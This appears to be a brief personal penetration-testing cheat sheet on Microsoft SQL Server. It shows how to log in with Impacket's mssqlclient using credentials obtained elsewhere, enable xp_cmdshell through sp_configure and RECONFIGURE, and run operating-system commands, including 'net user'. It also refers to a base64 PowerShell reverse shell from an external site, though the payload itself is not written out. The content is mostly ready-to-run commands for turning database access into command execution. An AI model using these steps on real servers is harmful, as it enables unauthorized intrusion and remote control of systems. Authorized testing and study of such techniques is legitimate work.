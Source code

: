 # MsSQL

## Impacket mssqlclient.py
On Kali it is installed as `impacket-mssqlclient`
I used it after obtaining credentials another way
```
impacket-mssqlclient [[domain/]username[:password]@]<targetName or address> -windows-auth

# In case of this error
# [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed. The login is from an untrusted domain and cannot be used with Integrated authentication.

impacket-mssqlclient username@<targetName or address>
```


After authenticating
```
enable_xp_cmdshell
RECONFIGURE
xp_cmdshell <command to execute>

# Simple reverse shell
# https://www.revshells.com/
# PowerShell #3 (Base64)
```
More advanced way to turn on xp_cmdshell
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
```
EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell
first as it’s disabled by default:
EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv
```
